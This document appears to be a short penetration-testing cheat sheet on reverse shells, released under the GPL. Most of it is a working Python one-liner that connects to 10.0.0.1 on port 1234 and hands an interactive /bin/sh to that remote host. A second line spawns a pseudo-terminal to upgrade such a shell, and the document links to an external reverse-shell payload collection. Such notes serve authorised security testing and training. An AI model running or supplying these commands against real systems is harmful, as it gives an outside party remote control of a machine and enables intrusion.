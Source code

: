 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Reverse Shells

## Background

Current recommendation:
- Use the PayloadAllTheThings resourece at the end.

## Tools

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Python Pseudo terminal

Use this on raw shells
```
python -c "import pty;pty.spawn('/bin/bash')"
```

## Recommended Resources
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md